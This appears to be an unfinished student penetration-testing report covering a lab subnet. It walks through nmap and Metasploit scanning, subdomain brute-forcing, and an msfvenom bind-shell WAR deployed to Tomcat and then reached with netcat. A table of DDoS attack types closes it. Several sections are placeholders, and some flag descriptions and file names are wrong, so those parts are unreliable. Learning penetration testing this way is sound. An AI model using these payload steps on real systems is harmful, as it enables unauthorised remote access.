

# Internship_Report

  

## Network Penetration Testing

### Submitted by:

Samuel Ahenkorah

Index Number: 7161521

Student number: 20865105

# Table of Contents
1. [Introduction](#introduction)
2. [Summary](#summary)
3. [Testing_Methodogy](#TestingMethodogy)
4. [Host_Discovery](#HostDiscovery)
5. [Sevice_Discovery_and_Port_Scanning](#SeviceDiscoveryandPortScanning)
6. [vulnerabilities](#Vulnerabilities)
7. [Web-Based_Attack_Surfaces](#Web-BasedAttackSurfaces)
8. [Generating_Payloads](#GeneratingPayloads)

# Introduction
This is the introduction section.

# Summary
An Internal Network Penetration Test was performed on a scope comprising 10.10.10.0/24 and a domain name https://virtualinfosecafrica.com/ from September 12th, 2024 to September 14th, 2024. This report describes penetration testing that represents a point in time snapshots of the network security posture of the scope in question which can be found in the subsequent sessions.

# Testing_Methodogy
Testing took off by utilizing the Network Mapper(NMAP) tool to locate live hosts and services in the in-scope ip address provided. The output of this tooling was then manually examined and the host and services were manually enumerated to uncover any missed vulnerability and weakness. Web-based attack surfaces were exploited to generate payloads.

# Host Discovery
Host discovery is a process of finding live hosts on a network. it can be used to narrow down the scope of a network assesment or during security testing. One tool which is mostly used in host discovery is the nmap tool.

__Nmap__ is an open-source command-line tool that uses ICMP, echo requests, TCP, and UDP packets to discover hosts.

When using nmap, there are some various options or arguments that are used in hoat discovery, depending on the specific tasks to be done. Some of these are;
- -sL: List scan(Simply list targets to scan)
- -sN: Ping scan(Disable port scan)
- -Pn: Treat all hosts as online(Skip host discovery), etc...

In this case, we are doing a scan report so we will use the "-sn" argument. The command used in the host discovery was " nmap -sn 10.10.10.0/24 ", where " -sn (or --ping-scan) " - tells nmap to perform a "ping scan" which is used to discover hosts without performing a full port scan. It will only check if hosts are alive, not what services they are running.
" 10.10.10.0/24 " - specifies the target network. The /24 is a CIDR notation indicating a subnet mask of 255.255.255.0, which means the scan will cover all IP addresses from 10.10.10.1 to 10.10.10.254.

#### For -sL scan

#### For -Pn scan

The output of the nmap command includes information about hosts that are up. Tools like grep and awk are used to filter this information. To extract only the lines showing hosts that are up, you can use:

nmap -sn 10.10.10.0/24 | grep "Nmap scan report for" | awk '{print $5}'

This command sequence uses grep to find lines that indicate a host is up and also uses awk to print only the IP addresses.

To save the results to a file, redirect the output of the above command to a file. For example: 

nmap -sn 10.10.10.0/24 | grep "Nmap scan report for" | awk '{print $5}' > hosts_up.txt

This command will create (or overwrite) a file named hosts_up.txt with the list of IP addresses of hosts that are up.

You can check the contents of the file to ensure it has been written correctly by using; cat hosts_up.txt

Subdomain enumeration can also be performed using aiodnsbrute

Enumerating subdomains for https://virtualinfosecafrica.com using a wordlist located at /usr/share/wordlists/rockyou.txt. would be done by using: 

aiodnsbrute -d example.com -w /usr/share/wordlists/rockyou.txt > subdomains.txt

# Sevice Discovery and Port Scanning
Service discoveery or port scanning is the process of actively probing a target network to identify open ports and services running on them, essentially mapping out what applications and potential vulnerabilities are exposed on the system by checking which ports are actively listening for connections, thus providing valuable information for further penetration testing.

Service discovery and port scanning are essential components of network security assessments, penetration testing, and general network management

Knowing which services are running and which ports are open helps in assessing the security posture of a system. Unnecessary or outdated services can be exploited if not properly secured.

Certain services might have known vulnerabilities. By discovering these services, you can apply relevant security patches or configurations.

Ensuring that only authorized services are running is often a requirement for compliance with security standards and regulations.

To run a  service discovery scan and save to a greppable nmap file, we use the command line;

nmap -sV -oG nmap_services.txt 10.10.10.0/24

Once you have the nmap results in greppable format, the results can be filtered by protocol by using grep.

To extract TCP services, we use:

grep "/tcp" tcp_services.txt > tcp_services_separated.txt

# Vulnerabilities
Vulnerabilities are scan using metasploit by first running metasploit console

In the Metasploit console, we use the db_import command to import the results.

db_import /path/to/nmap_results.xml

we now search for available auxiliary modules in Metasploit that can scan for vulnerabilities based on nmap results, we use:

search type:auxiliary
using: use auxiliary/scanner/http/http_login , we can scan for vulnerabilities

# Web-Based Attack Surfaces
Details about the project license.

#### Generating Payloads
To use msfvenom to generate a payload that can trigger TCP bind shell, we use the command line;

#### msfvenom -p java/jsp_shell_bind_tcp LPORT=4444 -f war -o bind_shell.war

We then deploy the WAR file to the Tomcat server. We can do this by accessing the Tomcat Manager interface and uploading the bind_shell.war file.
Now we can access the bind shell by connecting to the specified port on the target machine. For example, if you set the port to 4444, you can use netcat to connect:

#### nc 10.10.10.55 4444

| One | Two | Three |
|-----|-----|-------|
| one | two | three |

| DDoS-ICMP_Flood     | DDoS-RSTFIN_Flood         | DDoS-HTTP_Flood       |
|---------------------|---------------------------|-----------------------|
| DDoS-UDP_Flood      | DDoS-SynonymousIP_Flood    | DDoS-SlowLoris        |
| DDoS-TCP_Flood      | DDoS-PSHACK_Flood          | DDoS-ICMP_Fragmentation|
| DDoS-SYN_Flood      | DDoS-ACK_Fragmentation     | DDoS-PSHACK_Flood      |

  

